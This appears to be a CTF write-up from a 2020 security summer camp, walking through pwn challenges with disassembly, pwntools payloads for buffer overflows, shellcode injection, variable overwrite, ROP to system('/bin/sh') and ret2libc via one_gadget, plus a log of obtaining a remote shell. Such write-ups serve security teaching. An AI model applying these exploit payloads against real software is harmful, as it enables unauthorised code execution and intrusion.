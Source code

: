 # CyberSec summercamp 2020 
## pwn-ctf

## Challenges

### 張元Pwn-6 (50 pts)

First find the magic in binary file , then solve 1000 math questions with loop

Switch to interactive to `cat flag`

### 張元Pwn-7 (50 pts)

This challenge requires a little bit Reversing basic

#### stage1
We can see a simple `if` statement in function `stage1()`, as shown below:
    
    0x0040077d      8b45f4         mov eax, dword [var_ch]
    0x00400780      83e001         and eax, 1
    0x00400783      85c0           test eax, eax
    0x00400785      7434           je 0x4007bb
    0x00400787      8b45f4         mov eax, dword [var_ch]
    0x0040078a      2500001000     and eax, 0x100000
    0x0040078f      85c0           test eax, eax
    0x00400791      7428           je 0x4007bb
    0x00400793      8b45f4         mov eax, dword [var_ch]
    0x00400796      2500020000     and eax, 0x200              
    0x0040079b      85c0           test eax, eax
    0x0040079d      751c           jne 0x4007bb

we can try changing it into a C-like `if` statement:

`if ((var_ch & 1) != 0 && ((var_ch & 0x100000) != 0 && (var_ch & 0x200) == 0))`

base on this, we can write a keygen to crack `var_ch` in stage1

#### stage2

We can see it's trying to get three numbers from user input:

    0x00400810      e80bfeffff     call sym.imp.__isoc99_scanf
    0x00400815      8b45ec         mov eax, dword [var_14h]
    0x00400818      83f864         cmp eax, 0x64               
    0x0040081b      7530           jne 0x40084d
    0x0040081d      8b45f0         mov eax, dword [var_10h]
    0x00400820      3d00010000     cmp eax, 0x100              
    0x00400825      7526           jne 0x40084d
    0x00400827      8b45f4         mov eax, dword [var_ch]
    0x0040082a      3d0cb0cefa     cmp eax, 0xfaceb00c
    0x0040082f      751c           jne 0x40084d

based on the disassembly, we get three integers, 0x64, 0x100 and 0xfaceb00c


#### stage3

Again, the binary is comparing user input with a global varible

we can get the value of the varible(0x60107c) in the binary

send the numbers, and we get a shell

    [+] Opening connection to 139.110.112.192 on port 2117: Done
    [*] Switching to interactive mode
    Stage 2 completed
    Congrat! Here is your shell!
    $ cat flag
    BreakAllCTF{A_g-01d_h4cker_15_f4m1liar_w1th_b1n4ry_5ystem}

### 張元Pwn-8(50 pts)

From the assembly, we can see a shell function at `0x4006b6`

simply overwrite the return address as `0x4006b6`, we get a shell

### Angelboy Pwn-1(50 pts)

Same as the previous challenge, but this time the stack size is `0x20`

### Angelboy Pwn-2(50 pts)

Same as the previous challenge, but we're going to jump to our own shellcode instead of the given shell funvtion

we can write the shellcode in the `Name` varible(because the shellcode made by `shellcraft()` is only 44 bytes)


then we can overwrite the return pointer to jump to our shellcode(at `Name`)

### 張元 Pwn-1(100 pts)

This is an varible overwrite challenge

we can see that the  binary is trying to compare some varible to `0xfaceb00c` and `0xdeadbeef`

simply overwrite these two numbers by sending a payload like this:

`'A' *12 + p32(0xfaceb00c) + p32(0xdeadbeef)`

then we see that the program is comparing our input with a random number 

we can adjust our payload, to overwrite the random number to a known integer

in my exploit, my  paylaod is :

`'A' * 12 + p32(0xfaceb00c) + p32(0xdeadbeef) + p32(0x12345678)`

now we know the password(0x12345678), then we can pass it easily and get a shell

### 張元 Pwn-9(100 pts)

This challenge is similar to `Angelboy Pwn-2`, but the stack location is randomized

but the binary still gives us the `RSP`:

`Your address of input buffer is 0x7fff38a14c30`

now we get the RSP, we can try making a payload like this:

`asm(shellcraft.sh()) + 'A' * (0x70 + 8 - len(asm(shellcraft.sh()))) + p64(rsp)`

send the payload, and we get a shell

### 張元 Pwn-10(100 pts)

This is a simple ROP challenge

we can first put string `/bin/sh` in the first varible

then, we try to craft a payload to bypass NX

our payload will be like :

`(some padding) + (pop rdi) + "/bin/sh" address + system() address`

from the disassembly, we know that this binary contains `system()` function:

`0x004006bf      e86cfeffff     call sym.imp.system`

before we can call `system()`, we have to clean the `RDI` register

let's find some gadget using `ROPgadget`

`0x0000000000400773 : pop rdi ; ret`

our final payload looks like this:

`'A' * (48 + 8) + p64(0x0000000000400773) + p64(0x601070) + p64(0x004006bf)`

### Angelboy Pwn-3(100 pts)

This is a classic `return to libc` challenge

we're going to use a great tool called `one_gadget`, this way we won't have to craft a complicated payload by ourselves

our payload will be like:

`(some padding) + (the address that one_gadget give us)`

first, there is a memory leaking function in this program:

`Give me an address (in hex) :`

we can give the program the `got` address of `puts`

then it'll return a address, which is the address of `puts` in libc

we can get the target libc base address by doing `puts_addr - offset`

let's find the offset first(with readelf):

`404: 000000000006f690   456 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5`

then use `one_gadget` to find the address to jump:
    0x45216 execve("/bin/sh", rsp+0x30, environ)
    constraints:
      rax == NULL


now we get the address, let's craft our payload:

`'A'* (0x110 + 8) + p64((libc_base + 0x45216))  


### other

TBD

